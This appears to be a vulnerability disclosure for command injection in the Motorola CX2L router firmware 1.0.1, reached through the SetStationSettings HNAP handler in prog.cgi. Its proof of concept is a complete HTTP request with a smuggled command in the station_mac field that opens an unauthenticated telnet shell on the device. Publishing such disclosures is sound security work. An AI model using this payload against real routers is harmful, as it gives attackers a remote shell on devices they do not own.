



# Motorola Vulnerability

Vendor:Motorola

Product:CX2L

Version:1.0.1

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in Motorola router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `prog.cgi` binary:

In `SetStationSettings` function, `station_mac` is directly passed by the attacker, so we can control the `station_mac` to attack the OS.

<div  align="center"></div>

As you can see here, in `sub_402D74` function, the initial input has not checked and cause command injection.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `station_mac` as **`telnetd${IFS}-l${IFS}sh`** , and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.51.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetStationSettings"
HNAP_AUTH: 7685A5A7EED92D008A7C948933F10A42 1749733717058
Content-Length: 126
Origin: http://192.168.51.1
Connection: close
Referer: http://192.168.51.1/Devices.html
Cookie: work_mode=router; uid=nquJqdGz; PrivateKey=91D60D69571026EEB1519455933EC33A; timeout=6

{"SetStationSettings":{"station_mac":"`telnetd${IFS}-l${IFS}sh`","station_ext_name":"pjqwudi","station_access_enable":"deny"}}
```


## Result

The target router has enabled the telnet service.

<div  align="center"></div>
